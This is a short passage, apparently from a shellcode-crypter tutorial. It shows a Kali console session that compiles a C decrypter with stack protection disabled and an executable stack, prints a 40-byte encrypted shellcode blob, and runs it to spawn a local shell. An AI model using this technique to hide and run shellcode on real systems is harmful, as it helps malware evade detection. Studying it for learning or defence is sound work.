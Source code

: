 ### Let's compile and run it:
```console
kali@kali:/tmp$ gcc decrypt_shellcode.c -o decrypt_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./decrypt_shellcode 
Shellcode length = 40
\x38\xd1\x0d\x2b\xdf\xc6\xf2\x1a\x97\x2b\xfc\x72\x5e\xcf\x67\x39\x10\xa7\xd4\x41\x29\x0a\x8e\xf6\xe2\xcb\x7e\x5e\x20\xff\x86\x71\x81\xf2\xca\x0b\x7d\x1a\x3c\xff
Executing Shellcode....


kali@kali:/tmp$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
kali@kali:/tmp$ pwd
/tmp
kali@kali:/tmp$ exit
exit
```
